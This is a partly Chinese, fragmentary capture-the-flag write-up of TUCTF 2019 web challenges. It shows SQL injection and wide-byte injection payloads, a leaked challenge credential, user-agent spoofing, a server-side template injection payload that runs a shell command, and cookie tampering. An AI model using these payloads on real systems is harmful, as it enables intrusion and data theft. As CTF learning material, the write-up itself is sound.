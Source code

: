 # tuctf2019

## web

### Router Where Art Thou?

 http://chal.tuctf.com:30006/0.html 

 http://chal.tuctf.com:30006/1.html

 http://chal.tuctf.com:30006/2.html  

` FIXME: need to use Page::includeStaticResource `

`2.html:603  hidden variables, we are going to set this to the session, bug fix 2157`

https://192.168.1.254/



....爆破密码获得flag

### Login to Access

当Referer不为http://chal.tuctf.com:30001/login.html时,存在sql注入

当Referer: http://chal.tuctf.com:30001/login.hmtl时sql 注入被过滤

对第一种情况sql注入得到

```python
#database:information_schema,challenge,mysql,performance_schema,sys 
#table:users
#columns:user,password,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
#user,password,USER : dave,hunter2,dave
```



利用得到的账号密码直接在第二步登陆无效,猜测第二步还要sql注入

- sql注入

``` python
dave'+or+1%23 x
dave"+or+1%23 x
dave")+or+1%23 x
dave')+or+1%23 x
\转义'或"来逃逸失败


```

宽字节注入:

```python
#username=%2bsleep(10)&password=%bf%5c" x
#username=%2bsleep(10)&password=%bf%5c' x
#username=%bf%5c"&password=%2bsleep(10) x
#username=%bf%5c'&password=%2bsleep(10) x
```







sql注入点时username还是password

是单引号还是双引号闭合

过滤了哪些字符，转义了哪些字符

We then looked at the challenge’s description again and realized that there might be backup of file somewhere. We then tried to get the **login.php.bak**.

![img](https://khroot.com/wp-content/uploads/2019/11/image-201.png)

Surprise, there really is a backup file there. Let’s see what is inside.

![img](https://khroot.com/wp-content/uploads/2019/11/image-202-1024x385.png)

We found the flag, and it is ***TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk}\***

### The Droid You're  Looking For

看到droid想到robots.txt,直接访问提示没有权限

因为robots.txt是给爬虫看的,所以去百度了一个google爬虫的user-agent:

```
Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.96 Mobile Safari/537.36 (compatible; Googlebot/2.1;
```

robots.txt

```
User-agent: *
Disallow: googleagentflagfoundhere.html
```

TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}



### And Now, For Something Completely Different

```python
Traceback (most recent call last):
  File "/usr/local/lib/python2.7/dist-packages/tornado/web.py", line 1509, in _execute
    result = method(*self.path_args, **self.path_kwargs)
  File "/usr/src/app/class_website.py", line 87, in post
    if len(name) == 0 or len(phone_num) == 0 or len(email) == 0 or len(passwd2) == 0 or passw != passw2:
NameError: global name 'passwd2' is not defined
```

在网页中发现

```html
<!-- TODO: add /welcome/test -->
```

打开只有welcome test <==> /welcome/test

猜测是ssti

`{{__import__('os').popen('cat flag.txt').read()}}`

 TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465} 



### Cute Animals Company

修改cookie获得登陆权限

sqlmap得到密码

file:///etc/passwd获得flag???

http访问都不行的呀

